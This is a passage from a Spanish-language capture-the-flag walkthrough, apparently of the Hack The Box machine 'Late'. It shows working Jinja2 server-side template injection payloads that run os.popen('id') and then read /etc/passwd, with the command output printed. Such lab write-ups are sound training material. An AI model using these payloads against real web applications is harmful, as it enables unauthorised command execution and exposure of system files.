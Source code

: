 Observamos que nos devuelve un archivo cuyo tenido tiene el valor **49**, el resultado de la multiplicación de **7x7**. El sitio es vuelnerablle a ***SSTI Jinja2 - Basic injection*** [Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---basic-injection). Vamos a ejecutar algunos de estos payloads para validar si podemos ejecutar algún comando a nivel de sistema:

```bash
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

![""](/assets/images/htb-late/late7.png)

```bash
❯ cat results3.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: results3.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
   2   │ 
   3   │ </p>
───────┴───────────────────────────────────────────────────────────────
```

Vemos que podemos ejecutar comandos a nivel de sistema. Vamos a tratar de leer el `/etc/passwd` para ver los usuarios del sistema:

![""](/assets/images/htb-late/late9.png)

```bash
❯ catn results4.txt
<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
```